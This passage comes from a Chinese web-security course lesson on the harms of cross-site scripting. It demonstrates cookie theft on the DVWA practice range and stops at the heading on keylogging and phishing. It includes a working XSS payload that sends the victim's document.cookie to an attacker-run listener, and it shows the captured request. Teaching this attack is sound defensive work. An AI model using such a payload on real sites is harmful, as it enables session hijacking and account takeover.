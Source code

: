 # 22｜XSS（中）：跨站脚本攻击的危害性

    你好，我是王昊天。

在上一节课程中，我们学习了什么是XSS攻击，并且介绍了XSS攻击的不同种类。在攻击示例的代码中，我们仅仅是让网页弹出一个警告框，看上去XSS攻击并没有什么作用，但实际上，它的危害性是比较大的。你会好奇XSS攻击会造成哪些危害吗？

这节课，让我们一起来深入了解一下。

## XSS攻击的危害

XSS攻击的危害主要包括四种类型，我已经将它们整理在下图中，它们分别是盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转。

![图片](https://static001.geekbang.org/resource/image/79/28/7947771b79fb81ebdd8309d45e58a028.jpg?wh=856x412)

首先我们来学习具有代表性的XSS攻击利用，盗取cookie，看看攻击者是如何用XSS攻击实现对cookie的窃取。

### 盗取cookie

cookie在英文中的意思为甜品、饼干，不过这里盗取cookie可不是偷饼干的意思哦。在HTTP请求中，cookie代表着登录信息，我们在Web应用登录成功后，服务器端会生成一个cookie。然后服务器端会将这个生成的cookie发送给我们，供我们之后访问的时候使用。

如果攻击者拿到cookie信息了，那他就可以实现登录我们的账号，这是非常危险的，所以我们平时需要保护好我们的cookie信息。

在了解完cookie是什么之后，让我们用一个示例，一起看看XSS攻击是如何获得cookie信息的。

**这是一个DVWA靶场**，我们在登陆后选择DOM型XSS，获得如下页面：

![图片](https://static001.geekbang.org/resource/image/c6/c4/c6052d10acaea8a2yye19daa008b45c4.png?wh=1904x1152)

在上一讲的实战部分中，我们成功的对这个页面进行了XSS注入攻击，其中使用的payload为：

```javascript
<script>alert(1)</script>

```

在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个payload改为如下：

```javascript
<script>var pic=document.createElement("img");pic.src="http://127.0.0.1:2222/getCookie?"+escape(document.cookie)</script>

```

这个payload会调用JavaScript创建一个Element对象，之后将这个对象的src设置为我们监听的地址端口，向这个地址用GET方式上传参数document.cookie，这样我们就能窃取到用户的cookie啦。

![图片](https://static001.geekbang.org/resource/image/ba/ed/bab93ee93711yy226d1896e3c2e257ed.png?wh=1214x544)

可以看到，**我们已经收到这个GET请求了，它的cookie值也被我们接收到了**。

到这里，你已经学习了用XSS攻击来盗取cookie的用法。接下来，让我们来学习如何用XSS攻击实现按键记录以及钓鱼。

### 按键记录和钓鱼
